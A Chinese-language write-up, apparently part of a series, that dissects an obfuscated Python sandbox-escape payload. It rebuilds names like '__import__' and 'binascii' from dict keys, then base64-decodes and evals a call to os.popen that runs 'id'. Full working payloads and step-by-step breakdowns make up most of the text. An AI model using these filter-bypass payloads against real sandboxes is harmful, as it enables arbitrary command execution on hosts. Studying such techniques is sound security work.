




# Python 沙箱逃逸通解探索之路-解法三分析

## 前言

由于原文太长了，所以把四个解法分成独立的四个 md 文件，这样便于我修改。

解法二最后的 payload 是：

```python
CMD = [eval][eval(list(dict(b_o_o_l=1))[0][::2])(eval(list(dict(e_x_e_c=1))[0][::2])(eval(list(dict(b_y_t_e_s=1))[0][::2])([eval(list(dict(o_r_d=1))[0][::2])(j)for(i)in(list(eval(list(dict(o_p_e_n=1))[0][::2])(eval(list(dict(s_t_r=1))[0][::2])(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_a_s_e_6_4=1))[0][::2]))[23:-2])))[:-5]for(j)in(i)])))](eval(list(dict(b_6_4_d_e_c_o_d_e=1))[0][::2])(list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
```

这个答案直接执行可以，但是如果变成字符串放进 eval 函数再执行就会报错。所以需要探索解法三。


## 解法三 payload 分析

```python
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
```

- [vars()](https://www.runoob.com/python/python-func-vars.html)
- [locals()](https://www.runoob.com/python/python-func-locals.html)

### 导入 \_\_import\_\_ 函数

```python
dict(_1_1i1m1p1o1r1t1_1_=1) # {'_1_1i1m1p1o1r1t1_1_': 1}

list(dict(_1_1i1m1p1o1r1t1_1_=1))[0] # '_1_1i1m1p1o1r1t1_1_'

list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2] # '__import__'

eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2]) # <built-in function __import__>
```

eval 之后就导入了 import 函数，这个时候我们可以给这个函数传参，然后就可以导入指定的模块了。

### 导入 binascii 模块

```python
(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]) # 'binascii'

eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2])
# 等价于 __import__('binascii')，执行结果是 <module 'binascii' (built-in)>
```

### 获取 binascii.a2b_base64 函数

```python
vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))
```

执行完毕返回一个字典，里面包含了 binascii 模块含有的属性，包括一些函数等。



然后我们从这个字典（假设字典的名称是 a）中获取到 `a2b_base64` 函数：

```python
[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]] # ['a2b_base64']

vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]] # 等价于 a['a2b_base64']，执行结果是 <built-in function a2b_base64>
```

### 执行 a2b_base64 函数

```python
list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]
# 'X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg'
```

所以：

```python
vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0])
# 等价于 a2b_base64('X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg')
```

执行完毕返回一个字符串：



最后通过 eval 函数指向以上命令：

```python
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
# eval("__import__('os').popen('echo Hacked: `id`').read()")
```



### eval 函数内执行

把解法三的 payload 变成字符串，放入 eval 函数试试：



成功地执行命令！